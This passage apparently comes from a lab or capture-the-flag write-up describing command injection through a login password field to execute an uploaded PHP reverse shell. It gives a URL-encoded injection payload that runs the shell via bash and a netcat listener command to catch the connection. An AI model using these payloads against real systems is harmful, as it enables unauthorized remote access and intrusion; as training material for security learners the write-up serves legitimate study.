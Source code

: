 perfect! now the rev shell is in! 

#### Command injection: rev shell: execution

Lets similarly now try executing it remotely, in order to get a rev shell back:

Follow the same procedure to intercept the initial request on the password field (just like we did earlier with the wget injection) but this time, modify the request on the password field, in such way that we are actually executing our php file:
```shell
%0Abash%09-c%09"php%09rev_shell.php"%0A
```
and now our new request should look like this
![Pasted image 20250527193737](MediaFiles/Pasted%20image%2020250527193737.png)

then start our listener on the port we specified in our php shell:
```shell
nc -lvnp 9001 
```

next by forwarding the request, we receive our rev shell!
![Pasted image 20250527193809](MediaFiles/Pasted%20image%2020250527193809.png)
